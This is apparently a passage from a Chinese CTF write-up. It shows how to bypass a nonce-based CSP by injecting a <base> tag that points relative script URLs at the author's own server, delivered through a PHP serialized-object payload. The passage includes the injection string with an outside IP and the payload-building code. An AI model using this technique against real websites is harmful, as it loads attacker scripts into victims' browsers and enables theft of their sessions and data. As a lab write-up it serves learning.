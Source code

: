 发现`script-src`被设了nonce，需要script中给了正确的nonce才可以执行js代码。但是这里的nonce是

```php
$test=md5(uniqid('',true));
```

根据时间产生的唯一ID。

学一波CSP的绕过：

https://www.mi1k7ea.com/2019/02/24/CSP%E7%AD%96%E7%95%A5%E5%8F%8A%E7%BB%95%E8%BF%87%E6%8A%80%E5%B7%A7%E5%B0%8F%E7%BB%93/

https://blog.szfszf.top/article/32/

学习到了利用base标签来绕过这个`script-src`的nonce：

> <base> 标签为页面上的所有链接规定默认地址或默认目标。
>
> 通常情况下，浏览器会从当前文档的 URL 中提取相应的元素来填写相对 URL 中的空白。
>
> 使用 <base> 标签可以改变这一点。浏览器随后将不再使用当前文档的 URL，而使用指定的基本 URL 来解析所有的相对 URL。这其中包括 <a>、<img>、<link>、<form> 标签中的 URL。



```html
<html>
<head>
<link rel='stylesheet' href='./css/stylesheet.css'>
</head>
<!--?source=1-->
<body>
<h1 id="username">hello guest</h1><div id="particles-js"></div>
<script nonce='6595cb029041d966743b9a7aafd07b41' src='./js/jquery-1.12.0.js'></script>
<script nonce='6595cb029041d966743b9a7aafd07b41' src='./js/particles.min.js'></script>
<script nonce='6595cb029041d966743b9a7aafd07b41' src='./js/app.js'></script>
 </body>
</html>
```

也就是说，默认的base就是当前的文档的url，然后根据地址确定url，比如下面的那些：

```php
src='./js/app.js'
```

而且下面的三个script是有着正确nonce值的，因此这三个的js是可以执行的：

```html
<script nonce='6595cb029041d966743b9a7aafd07b41'
```

因此想办法加载恶意的js即可。把base改成我们自己的VPS：

```php
<base href=\"http://118.31.168.198:39543\">
```



```php
<?php
class user{
    public $username;
    public function __construct()
    {

        $this->username = new Exception("<base href=\"http://118.31.168.198:39543\">");
    }
}
echo base64_encode(urlencode(serialize(new user())));
```
